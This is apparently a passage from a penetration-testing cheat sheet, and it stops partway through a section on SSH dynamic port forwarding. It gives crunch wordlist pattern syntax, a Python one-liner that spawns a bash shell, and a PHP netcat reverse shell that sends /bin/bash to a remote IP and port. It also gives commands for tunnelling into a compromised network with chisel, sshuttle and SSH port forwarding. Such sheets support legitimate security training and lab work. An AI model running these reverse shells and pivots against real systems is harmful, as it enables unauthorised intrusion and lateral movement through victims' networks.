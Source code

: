 ```
crunch min max -t @,%^
Specifies a pattern, eg: @@god@@@@ where the only the @'s, ,'s, %'s, and ^'s will change.
@ will insert lower case characters
, will insert upper case characters
% will insert numbers
^ will insert symbols

```

**One of many ways of a spawning Python shell**

```
__import__('os').system("/bin/bash")
```

**Execute netcat revershell using PHP**

```
<?php system('nc -e /bin/bash ip port'); ?>
```

## Tunnels

### Chisel

**Step 1**

Fire up chisel server on kali.

```
chisel server --reverse --port 443
```

**Step 2**

Fire up chisel client on compromised machine.

```
.\chisel.exe client 172.16.0.1:443 R:389:172.16.0.131:389
```

### Sshuttle

You can chain these to go deeper into networks.

```
sshuttle -r root@vitcimIP 10.3.3.0/24
```

### Simple SSH

```
ssh -L kali-port:127.0.0.1:victim-port -fN victimUser@victim-IP**
```

### SSH dynamic port forwarding and proxy chains

**Step 1**
